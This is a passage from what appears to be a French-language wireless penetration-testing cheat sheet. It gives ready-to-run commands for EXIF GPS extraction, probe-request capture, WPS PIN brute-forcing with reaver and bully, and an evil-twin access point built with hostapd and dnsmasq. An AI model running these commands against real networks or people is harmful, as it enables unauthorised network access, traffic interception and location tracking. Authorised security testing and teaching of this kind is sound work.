 ```bash
# Analyse métadonnées images (EXIF GPS)
exiftool *.jpg | grep GPS
```

## 🎯 Énumération Active

### Découverte des Clients
```bash
# Monitor clients connectés
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 wlan0

# Probe requests (clients recherchant réseaux)
sudo airodump-ng wlan0 | grep "Probing for"

# Capture probe requests détaillée
sudo tcpdump -i wlan0 -s 0 -w probe_requests.pcap \
  'type mgt subtype probe-req'

# Analyse probe requests
tshark -r probe_requests.pcap -Y "wlan.fc.type_subtype == 0x04" \
  -T fields -e wlan.sa -e wlan_mgt.ssid
```

### Énumération WPS
```bash
# Scan WPS actif
sudo wash -i wlan0

# Information détaillée WPS
sudo reaver -i wlan0 -b AA:BB:CC:DD:EE:FF -vv

# Test WPS PIN par défaut
sudo bully -b AA:BB:CC:DD:EE:FF -c 6 -S -F -B -v 3 wlan0
```

### Fake AP et Evil Twin
```bash
# Création point d'accès légitime
sudo hostapd hostapd.conf

# Configuration hostapd.conf
cat > hostapd.conf << 'EOF'
interface=wlan0
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=password123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
EOF

# DHCP pour clients
sudo dnsmasq -C /dev/null -kd -F 192.168.4.100,192.168.4.200 \
  -i wlan0 --bind-dynamic
```
